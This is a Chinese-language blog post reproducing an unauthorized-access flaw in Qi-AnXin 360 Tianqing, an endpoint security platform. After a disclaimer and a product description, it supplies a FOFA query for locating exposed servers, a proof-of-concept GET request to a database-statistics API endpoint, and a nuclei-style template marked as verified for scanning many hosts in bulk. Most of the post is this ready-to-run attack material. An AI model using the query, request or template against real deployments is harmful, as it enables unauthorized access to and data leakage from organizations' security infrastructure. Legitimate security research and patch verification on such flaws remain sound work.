 # 原创
：  漏洞复现--奇安信360天擎未授权访问

# 漏洞复现--奇安信360天擎未授权访问

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

天擎基于奇安信全新的“川陀”终端安全平台构建，集成高性能病毒查杀、漏洞防护、主动防御引擎，深度融合威胁情报、大数据分析和安全可视化等创新技术，通过系统合规与加固、威胁防御与检测、运维管控与审计、终端数据防泄漏、统一管理与运营等功能，帮助政企客户构建持续有效的终端安全能力。该产品存在未授权访问，可造成数据库信息泄露。

### 二：漏洞影响版本

奇安信360天擎

### 三：网络空间测绘查询

fofa:<br/> `banner="QiAnXin web server" || banner="360 web server" || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1fb87eb40b7f0addd205a749f2ca50a1.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4a0bf049b4e767514d747efe152ebc64.jpeg"/><br/> POC:

```
GET /api/dbstat/gettablessize HTTP/1.1

```

### 五：批量检测

```
id: qianxin-360-tianqing-Unauthorized-access

info:
  name: qianxin-360-tianqing-Unauthorized-access
  author: 芝士土拨鼠
  severity: Medium
  description: 360天擎官方版能够为用户精确检测已知病毒木马、未知恶意代码，有效防御APT攻击，360天擎存在未授权访问，可造成信息泄露
  metadata: 
    fofa-query: banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
    verified: true
    max-request: 1

requests:
  - raw:
      - |+
        GET /api/dbstat/gettablessize HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
        Sec-Ch-Ua-Mobile: ?0
        Sec-Ch-Ua-Platform: "Windows"
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - success
      - type: status
        status:
          - 200

```
